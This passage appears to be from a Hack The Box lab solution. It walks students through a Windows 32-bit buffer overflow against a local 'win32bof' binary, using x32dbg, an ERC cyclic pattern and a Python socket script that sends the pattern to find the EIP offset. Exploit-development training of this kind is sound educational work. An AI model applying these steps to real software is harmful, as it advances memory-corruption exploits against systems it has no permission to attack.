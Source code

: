 ![[HTB Solutions/Others/z. images/ef6891d898f6741dc98f4244fddb4594_MD5.jpg]]

Then, side by side, students need to run the Python script and keeping pressing `c` to continue until the program crashes. Students will notice that the binary crashes after being sent 500 bytes, and the `EIP` is overwritten with the `A` letter:

![[HTB Solutions/Others/z. images/85113bafd219df3390a5af2fb3d2305a_MD5.jpg]]

Afterward, students need to use `ERC` to create a unique pattern that is 500 bytes long:

Code: powershell

```powershell
ERC --pattern c 500
```

![[HTB Solutions/Others/z. images/7675e718aa743d950eccccede6417eb4_MD5.jpg]]

Students need to copy the pattern that is under "Ascii" to use it within the function that will fill the `EIP` with characters from it:

Code: python

```python
import socket
from struct import pack

IP = "127.0.0.1"
port = 21449

def EIPOffset():
    pattern = bytes("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac" 
    "9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8" 
    "Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A" 
    "i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al" 
    "7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6" 
    "Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq", "utf-8")

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP, port))
    s.send(pattern)
    s.close()

EIPOffset()
```

![[HTB Solutions/Others/z. images/bb648d1ea0d77e0c9f22898dea994211_MD5.jpg]]

Within `x32dbg`, students need to click the `Reset` button so that it closes the crashed `win32bof` binary and run it again:

![[HTB Solutions/Others/z. images/781b7bdee1b803dc95362cb4aafb5981_MD5.jpg]]

Subsequently, students need to run the Python script that will fill the `EIP` with characters from the generated pattern to notice that `win32bof` crashed with the `EIP` filled with `70413670`:
